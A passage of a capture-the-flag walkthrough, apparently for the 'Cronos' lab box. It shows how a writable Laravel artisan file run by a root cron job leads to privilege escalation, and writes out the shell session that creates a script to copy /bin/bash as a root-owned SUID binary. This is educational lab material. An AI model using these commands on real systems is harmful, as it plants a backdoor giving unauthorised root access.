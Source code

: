 ```
/*
|--------------------------------------------------------------------------
| Shutdown The Application
|--------------------------------------------------------------------------
|
| Once Artisan has finished running. We will fire off the shutdown events
| so that any final work may be done by the application before we shut
| down the process. This is the last thing to happen to the request.
|
*/

$kernel->terminate($input, $status);

exit($status);
www-data@cronos:/etc$ 
```

Our user "www-data" has write privileges on the "/var/www/laravel/artisan" file, which should allow us to get command execution as root, and consequently escalate our privileges.

## Privilege Escalation

Since we don't have a fully interactive shell, we can't use "vi" or "nano" to edit the "artisan" file.&#x20;

{% hint style="info" %}
NOTE: There are multiple ways to abuse this scenario to escalate privileges. Below we are demonstrating one way of doing it, which may or may not be the best/easiest way, but it for the purposes of privilege escalation on this box it will suffice.
{% endhint %}

The plan to escalate our privileges is as follows:

* Create a shell script to execute commands to create a SUID binary we can use.
* Transfer the "artisan" file to our attacker box, modify it, and transfer it back to the target.&#x20;
* Wait for the cron job to run, verify our exploit worked and get a shell as root.

Create the shell script that will be executed when the cron job runs the "artisan" PHP script:

```
www-data@cronos:/var/www/laravel$ cat <<EOF > /var/www/laravel/priv.sh
cat <<EOF > /var/www/laravel/priv.sh
> #!/bin/bash
#!/bin/bash
> cp /bin/bash /var/www/laravel/priv; chown root:root /var/www/laravel/priv; chmod u+s /var/www/laravel/priv
< /var/www/laravel/priv; chmod u+s /var/www/laravel/priv                     
> EOF
EOF
www-data@cronos:/var/www/laravel$ ls -la priv.sh
ls -la priv.sh
-rw-r--r-- 1 www-data www-data 119 Nov 29 12:29 priv.sh
www-data@cronos:/var/www/laravel$ chmod +x priv.sh
chmod +x priv.sh
www-data@cronos:/var/www/laravel$ ls -la priv.sh
ls -la priv.sh
-rwxr-xr-x 1 www-data www-data 119 Nov 29 12:29 priv.sh
www-data@cronos:/var/www/laravel$ cat priv.sh
cat priv.sh
#!/bin/bash
cp /bin/bash /var/www/laravel/priv; chown root:root /var/www/laravel/priv; chmod u+s /var/www/laravel/priv
www-data@cronos:/var/www/laravel$ 
```
